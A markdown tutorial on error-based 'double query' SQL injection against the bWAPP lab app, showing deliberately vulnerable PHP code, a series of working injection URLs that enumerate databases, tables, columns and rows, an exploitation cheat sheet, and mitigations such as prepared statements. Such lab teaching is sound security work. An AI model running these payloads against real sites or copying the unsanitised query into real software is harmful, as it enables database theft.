

# jab output n aye aur sirf error print ho wha dqi use kare-0
# 🌐 Double Query Injection - Web Exploitation Guide

> **PHP Implementation and Real-World Attack Scenarios**

---

## 📋 Table of Contents

- [Overview](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#overview)
- [PHP Implementation](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#php-implementation)
    - [Database Connection](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#database-connection)
    - [Vulnerable Query Script](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#vulnerable-query-script)
- [Exploitation Examples](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#exploitation-examples)
    - [Logically Valid Requests](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#logically-valid-requests)
    - [Basic SQLi Syntax Tests](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#basic-sqli-syntax-tests)
    - [Get Database Version](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-database-version)
    - [Get Database Name](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-database-name)
    - [Get Current Database User](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-current-database-user)
    - [Get Each Database Name from Server](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-each-database-name-from-server)
    - [Get Each Table Name from Database](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-each-table-name-from-database)
    - [Get Column Names from Tables](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-column-names-from-tables)
    - [Get Row Data from Specific Columns](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#get-row-data-from-specific-columns)
- [Attack Workflow](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#attack-workflow)
- [Security Implications](https://claude.ai/chat/1c76515f-e3a8-458d-b85c-982cee05ae62#security-implications)

---

## 🎯 Overview

This guide demonstrates how Double Query Injection vulnerabilities can be exploited in real-world web applications using PHP and MySQL. The examples show both the vulnerable code implementation and the step-by-step exploitation process to extract sensitive database information.

**Lab Environment**: Bee Box (Vulnerable Web Application)  
**Target URL**: `http://192.168.1.239/sqli/double-query-injection.php`

---

## 💻 PHP Implementation

### Database Connection

**File**: `connection.php`

```php
<?php
$dbhost = "localhost";
$dbuser = "root";
$dbpass = "bug";
$dbname = "bWAPP";

$connection = mysqli_connect($dbhost, $dbuser, $dbpass, $dbname);

if (mysqli_connect_error()) {
    die("Database Connection Failed:" . mysqli_connect_error());
}

?>
```

#### Connection Parameters

|Parameter|Value|Description|
|---|---|---|
|`$dbhost`|`localhost`|MySQL server address|
|`$dbuser`|`root`|Database user|
|`$dbpass`|`bug`|Database password|
|`$dbname`|`bWAPP`|Target database name|

---

### Vulnerable Query Script

**File**: `double-query-injection.php`

```php
<?php
// Include the database connection file, assumed to provide $connection
include("connection.php");

?>

<!DOCTYPE html>
<html>
<head>
    <title>Double Query Injection</title>
</head>
<body>

<div style="margin-top:70px;color:#FFF; font-size:23px; text-align:center">
    <h1>
        <span class="style4">Error based string</span> <br>
        <font size="3" color="#666666">

<?php

// Check if the 'id' value is set in the GET request (from the URL)
if (isset($_GET['id'])) {
    
    // Retrieve 'id' value from the user-provided GET parameter
    $id = $_GET['id'];
    
    // WARNING: This query is vulnerable to SQL injection!
    // It directly inserts unsanitized user input into the query string.
    $query = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
    
    // For debugging: Uncomment the line below to see the actual query
    // echo $query . "</br>";
    
    // Execute the SQL query using the connection from the included file
    $result = mysqli_query($connection, $query);
    
    // If the query failed, output the error and stop the script
    if (!$result) {
        die("Database Query Failed" . 
            print_r(mysqli_error($connection))
        );
    }
    
    // Iterate over the query result and output messages
    while ($row = mysqli_fetch_assoc($result)) {
        echo "<font color='#0000ff'>";
        echo "Your ID in Our Database";
        echo "<br>";
        echo "Your User Name in Our Database";
        echo "</font>";
    }
}

?>

        </font>
    </h1>
</div>

</body>
</html>
```

### 🔴 Vulnerability Analysis

#### The Vulnerable Line

```php
$query = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

**Issues:**

1. ❌ **No Input Validation**: User input is directly concatenated into the SQL query
2. ❌ **No Sanitization**: No escaping or filtering of special characters
3. ❌ **Direct Interpolation**: `$id` variable inserted without any protection
4. ❌ **Error Messages Exposed**: Database errors are displayed to users via `mysqli_error()`

#### How It Should Be Fixed

```php
// ✅ SECURE VERSION - Using Prepared Statements
$stmt = mysqli_prepare($connection, "SELECT * FROM users WHERE id=? LIMIT 0,1");
mysqli_stmt_bind_param($stmt, "i", $id);
mysqli_stmt_execute($stmt);
$result = mysqli_stmt_get_result($stmt);
```

---

## 🎯 Exploitation Examples

### Logically Valid Requests

#### Normal ID Lookup

```
http://192.168.1.239/sqli/double-query-injection.php?id=1
```

**Purpose**: Test normal functionality - retrieve user with ID 1

---

### Basic SQLi Syntax Tests

These tests verify SQL injection vulnerability exists:

#### Test 1: Comment Out Rest of Query

```
http://192.168.1.239/sqli/double-query-injection.php?id=1'--+
```

**What it does**: The `--` comments out everything after `id='1'`, testing if quotes can be injected

#### Test 2: Always True Condition

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND 1--+
```

**Expected**: Returns data (because `1 AND 1` is true)

#### Test 3: Always False Condition

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND 0--+
```

**Expected**: Returns no data (because `1 AND 0` is false)

---

### Get Database Version

#### 🔍 Markdown Payload

```markdown
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select version()), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

#### 📝 Formatted SQL Query

```sql
SELECT * FROM users WHERE id='1' AND (
    select 1 from (
        select count(*), 
               concat(0x3a,0x3a, (select version()), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns 
        group by a
    ) b
) LIMIT 0,1 --+
```

**Expected Result**: Error message revealing MySQL version  
**Example Output**: `::5.7.29::1`

---

### Get Database Name

#### 🔍 URL Payload

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select database()), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

#### 📝 SQL Query

```sql
select 1 from (
    select count(*), 
           concat(0x3a,0x3a, (select database()), 0x3a,0x3a, floor(rand()*2)) a
    from information_schema.columns 
    group by a
) b
```

**Expected Result**: Current database name  
**Example Output**: `::bWAPP::1`

---

### Get Current Database User

#### 🔍 URL Payload

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select user()), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

#### 📝 SQL Query

```sql
select 1 from (
    select count(*), 
           concat(0x3a,0x3a, (select user()), 0x3a,0x3a, floor(rand()*2)) a
    from information_schema.columns 
    group by a
) b
```

**Expected Result**: Current MySQL user  
**Example Output**: `::root@localhost::1`

---

### Get Each Database Name from Server

#### 🎯 First Database

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_schema from information_schema.tables GROUP BY table_schema limit 0,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**SQL**:

```sql
select count(*), 
       concat(0x3a,0x3a,
              (select table_schema from information_schema.tables 
               GROUP BY table_schema limit 0,1),
              0x3a,0x3a,
              floor(rand()*2)) a
from information_schema.columns 
group by a
```

---

#### 🎯 Second Database

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_schema from information_schema.tables GROUP BY table_schema limit 1,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**Note**: Changed `limit 0,1` to `limit 1,1` to get the second database

---

#### 🎯 Third Database

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_schema from information_schema.tables GROUP BY table_schema limit 2,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**Note**: `limit 2,1` gets the third database

---

### Get Each Table Name from Database

#### 🎯 First Table (from current database)

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**SQL**:

```sql
select count(*), 
       concat(0x3a,0x3a,
              (select table_name from information_schema.tables 
               where table_schema=database() limit 0,1),
              0x3a,0x3a,
              floor(rand()*2)) a
from information_schema.columns 
group by a
```

---

#### 🎯 Second Table (in current database)

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 1,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

---

#### 🎯 Third Table (in current database)

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema=database() limit 2,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

---

#### 🎯 Table from Specific Database ('armour_db')

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema="armour_db" limit 0,1),0x3a,0x3a,floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**Note**: Targeting specific database `armour_db` instead of current database

---

### Get Column Names from Tables

#### 🎯 First Column from 'emails' Table

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select column_name from information_schema.columns where table_name="emails" AND table_schema=database() limit 0,1), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**SQL**:

```sql
select count(*), 
       concat(0x3a,0x3a, 
              (select column_name from information_schema.columns 
               where table_name="emails" AND table_schema=database() limit 0,1), 
              0x3a,0x3a, 
              floor(rand()*2)) a
from information_schema.columns 
group by a
```

---

#### 🎯 Second Column from 'emails' Table

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select column_name from information_schema.columns where table_name="emails" AND table_schema=database() limit 1,1), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

---

#### 🎯 Second Column from 'users' Table

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select column_name from information_schema.columns where table_name="users" AND table_schema=database() limit 1,1), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

---

### Get Row Data from Specific Columns

#### 🎯 First Row from 'id' Column in 'users' Table

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select email_id from emails limit 0,1), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**SQL**:

```sql
select count(*), 
       concat(0x3a,0x3a, 
              (select email_id from emails limit 0,1), 
              0x3a,0x3a, 
              floor(rand()*2)) a
from information_schema.columns 
group by a
```

---

#### 🎯 Second Row from 'id' Column in 'users' Table

```
http://192.168.1.239/sqli/double-query-injection.php?id=1' AND (
    select 1 from (
        select count(*), concat(0x3a,0x3a, (select email_id from emails limit 1,1), 0x3a,0x3a, floor(rand()*2)) a
        from information_schema.columns group by a
    ) b
) --+
```

**Note**: Incrementing the `limit 1,1` to get the next row

---

## 🔄 Attack Workflow

### Step-by-Step Exploitation Process



### 📊 Information Gathering Hierarchy

```
1. System Information
   ├── Database Version (version())
   ├── Current User (user())
   └── Current Database (database())

2. Database Enumeration
   ├── List All Databases (information_schema.tables → table_schema)
   └── Select Target Database

3. Table Enumeration
   ├── List All Tables (information_schema.tables → table_name)
   └── Select Target Table(s)

4. Column Enumeration
   ├── List All Columns (information_schema.columns → column_name)
   └── Identify Sensitive Columns (passwords, emails, etc.)

5. Data Extraction
   ├── Extract Row Data (SELECT column FROM table)
   └── Increment LIMIT offset for each row
```

---

## 🔐 Security Implications

### Impact of This Vulnerability

|Impact Category|Description|
|---|---|
|**Confidentiality**|🔴 **CRITICAL** - Complete database disclosure possible|
|**Integrity**|🟠 **HIGH** - Potential data modification through UNION/UPDATE|
|**Availability**|🟡 **MEDIUM** - Database operations can be disrupted|
|**Authentication**|🔴 **CRITICAL** - Credential theft enables unauthorized access|
|**Authorization**|🔴 **CRITICAL** - Privilege escalation possible|

### What Attackers Can Do

1. ✅ **Extract All Database Names**
2. ✅ **Extract All Table Names**
3. ✅ **Extract All Column Names**
4. ✅ **Extract All Row Data** (usernames, passwords, emails, etc.)
5. ✅ **Identify Database Version** (for targeted exploits)
6. ✅ **Identify Current User** (check privileges)
7. ⚠️ **Read System Files** (if FILE privilege exists)
8. ⚠️ **Write Webshells** (if FILE privilege + write permissions exist)
9. ⚠️ **Execute OS Commands** (via UDF or other techniques)

---

## 🛡️ Mitigation Strategies

### Immediate Actions

#### 1. Use Prepared Statements (PDO)

```php
// ✅ SECURE CODE
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ? LIMIT 0,1");
$stmt->execute([$id]);
$user = $stmt->fetch();
```

#### 2. Use MySQLi Prepared Statements

```php
// ✅ SECURE CODE
$stmt = $connection->prepare("SELECT * FROM users WHERE id = ? LIMIT 0,1");
$stmt->bind_param("i", $id);
$stmt->execute();
$result = $stmt->get_result();
```

#### 3. Input Validation & Sanitization

```php
// ✅ VALIDATE INPUT
if (!filter_var($id, FILTER_VALIDATE_INT)) {
    die("Invalid ID format");
}

// Cast to integer
$id = (int)$id;
```

#### 4. Disable Error Display in Production

```php
// ✅ DON'T EXPOSE ERRORS TO USERS
mysqli_report(MYSQLI_REPORT_OFF);

// Log errors instead
if (!$result) {
    error_log("Database error: " . mysqli_error($connection));
    die("An error occurred. Please contact support.");
}
```

#### 5. Implement Least Privilege Principle

```sql
-- ✅ Create limited user for web application
CREATE USER 'webapp'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON bWAPP.users TO 'webapp'@'localhost';
-- Don't grant FILE, SUPER, or other dangerous privileges
```

#### 6. Use Web Application Firewall (WAF)

- ModSecurity
- Cloudflare WAF
- AWS WAF
- Azure WAF

#### 7. Implement Rate Limiting

Prevent automated exploitation attempts:

```php
// ✅ Rate limiting example
$max_requests = 10;
$time_window = 60; // seconds

// Check if user exceeded rate limit
if (user_exceeded_rate_limit($ip, $max_requests, $time_window)) {
    http_response_code(429);
    die("Too many requests. Please try again later.");
}
```

---

## 📝 Exploitation Cheat Sheet

### Quick Reference Table

|Goal|Subquery to Use|
|---|---|
|**Get Version**|`(select version())`|
|**Get Database**|`(select database())`|
|**Get User**|`(select user())`|
|**Get Nth Database**|`(select table_schema from information_schema.tables GROUP BY table_schema limit N,1)`|
|**Get Nth Table**|`(select table_name from information_schema.tables where table_schema=database() limit N,1)`|
|**Get Nth Column**|`(select column_name from information_schema.columns where table_name="TARGET" AND table_schema=database() limit N,1)`|
|**Get Nth Row Data**|`(select COLUMN from TABLE limit N,1)`|

### URL Encoding Notes

When crafting payloads in URLs, remember to encode special characters:

|Character|URL Encoded|
|---|---|
|Space|`%20` or `+`|
|Single Quote `'`|`%27`|
|Double Quote `"`|`%22`|
|Hash `#`|`%23`|
|Parenthesis `()`|`%28%29`|

---

## ⚠️ Legal Disclaimer

This documentation is intended for **educational purposes** and **authorized security testing only**.

🚫 **Unauthorized access to computer systems is illegal and punishable by law.**

✅ **Always obtain written permission before performing security testing.**

✅ **Only test systems you own or have explicit authorization to test.**

---

## 📚 Additional Resources

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)
- [MySQL Documentation - Prepared Statements](https://dev.mysql.com/doc/refman/8.0/en/sql-prepared-statements.html)
- [PHP: PDO - Prepared Statements](https://www.php.net/manual/en/pdo.prepared-statements.php)

---

<div align="center">

**🔒 Stay Secure, Test Responsibly 🔒**

_Created for Cybersecurity Education and Awareness_

</div>